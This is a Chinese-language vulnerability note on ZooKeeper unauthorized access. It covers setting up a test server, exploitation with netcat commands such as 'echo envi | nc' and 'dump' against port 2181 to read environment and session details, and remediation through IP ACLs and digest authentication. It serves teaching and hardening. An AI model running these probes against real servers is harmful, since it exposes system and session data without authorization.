



# ZooKeeper未授权访问漏洞

## 漏洞描述

ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。

## 环境搭建

Zookeeper的默认开放端口是2181

```bash
wget https://archive.apache.org/dist/zookeeper/zookeeper-3.4.10/zookeeper-3.4.10.tar.gz

tar -zxvf zookeepre-3.4.10.tar.gz
cd zookeeper-3.4.10/
cd conf/
vi zoo.cfg
### 配置单机模式
tickTime=2000    
dataDir=/tmp/zookeeper/data    
dataLogDir=/tmp/zookeeper/logs    
clientPort=2181 

bin/zkServer.sh start   //启动
### 启动client连接server
bin/zkCli.sh -server localhost:2181 
```



## 漏洞利用

执行以下命令即可远程获取该服务器的环境：

```
echo envi | nc 192.168.32.131 2181
```



stat：列出关于性能和连接的客户端的统计信息。

```
echo stat |nc 192.168.32.131 2181
```




ruok：测试服务器是否运行在非错误状态。
 `echo ruok |ncat 127.0.0.1 2181`

reqs：列出未完成的请求。
 `echo reqs |ncat 127.0.0.1 2181`

envi：打印有关服务环境的详细信息。
 `echo envi |ncat 127.0.0.1 2181`

dump：列出未完成的会话和临时节点。
 `echo dump |ncat 127.0.0.1 2181`

## 修复建议

禁止把Zookeeper直接暴露在公网
添加访问控制，根据情况选择对应方式（认证用户，用户名密码）

### 绑定指定IP访问 (推荐)：

1、登陆zookeeper

```ruby
./zkCli.sh -server <IP>:<port>
```

2、查看当前权限：

```undefined
getAcl /
```

3、添加可访问IP

```undefined
setAcl / ip:192.168.1.xx:cdrwa,ip:192.168.1.xx:cdrwa
```

4、查看是否正常添加

```undefined
getAcl /
```

未授权也可以连接，但是查看节点时会报错`KeeperErrorCode = NoAuth for /`，localhost都不行，必须填可访问IP，才能访问。

```csharp
[zk: localhost:2181(CONNECTED) 0] ls /
KeeperErrorCode = NoAuth for /
[zk: localhost:2181(CONNECTED) 1] 
```

**回退办法：**
 使用之前设置的IP进行访问：

```ruby
./zkCli.sh -server <IP>:<port>
```

设置为所有人可访问：

```undefined
setAcl / world:anyone:cdrwa
```


### 设置身份验证

为ZooKeeper配置相应的访问权限。

1）增加一个认证用户
 addauth digest 用户名:密码明文

```css
addauth digest user1:password1 
```

2）设置权限
 setAcl /path auth:用户名:密码明文:权限
 setAcl /path digest:用户名:密码密文:权限

```bash
setAcl /test auth:user1:password1:cdrwa 
```

3）查看Acl设置

```undefined
getAcl /path 
```